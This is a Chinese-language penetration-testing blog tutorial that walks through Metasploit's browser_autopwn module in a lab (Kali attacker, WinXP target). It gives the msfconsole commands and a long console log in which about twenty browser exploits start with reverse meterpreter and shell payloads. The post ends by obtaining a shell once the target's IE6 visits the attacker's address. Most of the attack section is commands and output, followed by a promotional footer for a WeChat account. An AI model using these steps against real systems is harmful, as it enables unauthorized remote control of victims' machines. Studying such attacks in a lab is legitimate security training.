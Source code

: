 ```yaml
---
layout: post
category: binghe-code-hack
title: 浏览器渗透
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 浏览器渗透
lock: need
---
```


# 浏览器渗透

攻击机： Kali 192.168.175.128

靶机： WinXP 192.168.175.130

## Browser autopwn攻击 

Metasploit中提供了一个browser autopwn模块，这是一个可以用来对各种浏览器进行测试和渗透的自动化向量。

autopwn指的是自动对目标进行渗透。autopwn模块在配置了所有要使用的浏览器渗透脚本后，将处于监听模式下。然后，它便等待着一个即将到来的连接。一旦连接建立，它就会发送一系列与目标浏览器相匹配的渗透模块，具体发送哪个模块要取决于受害者浏览器的类型。无论目标系统上运行着什么浏览器，只要存在漏洞，autopwn模块就能自动发起攻击。

Browser autopwn原理图：

![img](https://img-blog.csdnimg.cn/20190124193431777.png)

## 使用Metasploit的Browser autopwn模块进行浏览器攻击

这里，我们先打开msf终端

```bash
msfconsole
```

然后在msf终端依次输入如下命令：

```bash
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.175.128
set URIPATH /
set SRVPORT 80
exploit
```

其中，我们需要制定LHOST、URIPATH、SRVPORT参数。SRVPORT参数制定了渗透服务器使用的端口。这个端口建议为80或者443。URIPATH是存储各种渗透模块的目录路径，它的值被指定为/，表示根目录。设定好这些参数之后，就可以输入命令exploit进行攻击了。

具体如下：

```bash
msf5 > use auxiliary/server/browser_autopwn
msf5 auxiliary(server/browser_autopwn) > show options

Module options (auxiliary/server/browser_autopwn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LHOST                     yes       The IP address to use for reverse-connect payloads
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits


msf5 auxiliary(server/browser_autopwn) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /
msf5 auxiliary(server/browser_autopwn) > set SRVPORT 80
SRVPORT => 80
msf5 auxiliary(server/browser_autopwn) > exploit
[*] Auxiliary module running as background job 0.

[*] Setup
msf5 auxiliary(server/browser_autopwn) > 
[*] Starting exploit modules on host 192.168.175.128...
[*] ---

[*] Starting exploit android/browser/webview_addjavascriptinterface with payload android/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/Kwhc
[*] Local IP: http://192.168.175.128:80/Kwhc
[*] Server started.
[*] Starting exploit multi/browser/firefox_proto_crmfrequest with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/vzkqpBnTX
[*] Local IP: http://192.168.175.128:80/vzkqpBnTX
[*] Server started.
[*] Starting exploit multi/browser/firefox_tostring_console_injection with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/JLQaHqdG
[*] Local IP: http://192.168.175.128:80/JLQaHqdG
[*] Server started.
[*] Starting exploit multi/browser/firefox_webidl_injection with payload generic/shell_reverse_tcp
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/NObgkNaafM
[*] Local IP: http://192.168.175.128:80/NObgkNaafM
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/oAXSrii
[*] Local IP: http://192.168.175.128:80/oAXSrii
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_provider_skeleton with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/rgkOUbVZ
[*] Local IP: http://192.168.175.128:80/rgkOUbVZ
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_reflection_types with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zOAZWwwA
[*] Local IP: http://192.168.175.128:80/zOAZWwwA
[*] Server started.
[*] Starting exploit multi/browser/java_rhino with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/KMZSsvbLbdEAo
[*] Local IP: http://192.168.175.128:80/KMZSsvbLbdEAo
[*] Server started.
[*] Starting exploit multi/browser/java_verifier_field_access with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zHZYuGKZAKbZ
[*] Local IP: http://192.168.175.128:80/zHZYuGKZAKbZ
[*] Server started.
[*] Starting exploit multi/browser/opera_configoverwrite with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/WZzpMp
[*] Local IP: http://192.168.175.128:80/WZzpMp
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_mp4_cprt with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/lZvfdntlB
[*] Local IP: http://192.168.175.128:80/lZvfdntlB
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_rtmp with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/pgqDFJQG
[*] Local IP: http://192.168.175.128:80/pgqDFJQG
[*] Server started.
[*] Starting exploit windows/browser/ie_cgenericelement_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/MERLTwZVxeoDI
[*] Local IP: http://192.168.175.128:80/MERLTwZVxeoDI
[*] Server started.
[*] Starting exploit windows/browser/ie_createobject with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/TpOcHC
[*] Local IP: http://192.168.175.128:80/TpOcHC
[*] Server started.
[*] Starting exploit windows/browser/ie_execcommand_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/XaoAp
[*] Local IP: http://192.168.175.128:80/XaoAp
[*] Server started.
[*] Starting exploit windows/browser/mozilla_nstreerange with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/GAxmRqM
[*] Local IP: http://192.168.175.128:80/GAxmRqM
[*] Server started.
[*] Starting exploit windows/browser/ms13_080_cdisplaypointer with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/dWTagnZBC
[*] Local IP: http://192.168.175.128:80/dWTagnZBC
[*] Server started.
[*] Starting exploit windows/browser/ms13_090_cardspacesigninhelper with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/nfeHDD
[*] Local IP: http://192.168.175.128:80/nfeHDD
[*] Server started.
[*] Starting exploit windows/browser/msxml_get_definition_code_exec with payload windows/meterpreter/reverse_tcp
[*] Starting handler for windows/meterpreter/reverse_tcp on port 3333
[*] Starting handler for generic/shell_reverse_tcp on port 6666
[*] Started reverse TCP handler on 192.168.175.128:3333 
[*] Using URL: http://0.0.0.0:80/NiTvaxR
[*] Local IP: http://192.168.175.128:80/NiTvaxR
[*] Server started.
[*] Using URL: http://0.0.0.0:80/dIoa
[*] Local IP: http://192.168.175.128:80/dIoa
[*] Server started.
[*] Starting handler for java/meterpreter/reverse_tcp on port 7777
[*] Started reverse TCP handler on 192.168.175.128:6666 
[*] Started reverse TCP handler on 192.168.175.128:7777 

[*] --- Done, found 20 exploit modules

[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.175.128:80/
[*] Server started.
```

现在任何一个连接到攻击机80端口的目标都会遭到一个基于它所使用的浏览器的渗透攻击。当有受害者访问我们的IP地址时，browser autopwn模块就会向其发送各种漏洞模块，直到获得Meterpreter控制权限为止。

此时，我们在靶机WinXP上打开IE 6访问连接http://192.168.175.128，

这样，我们就可以拿到靶机的Shell了

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)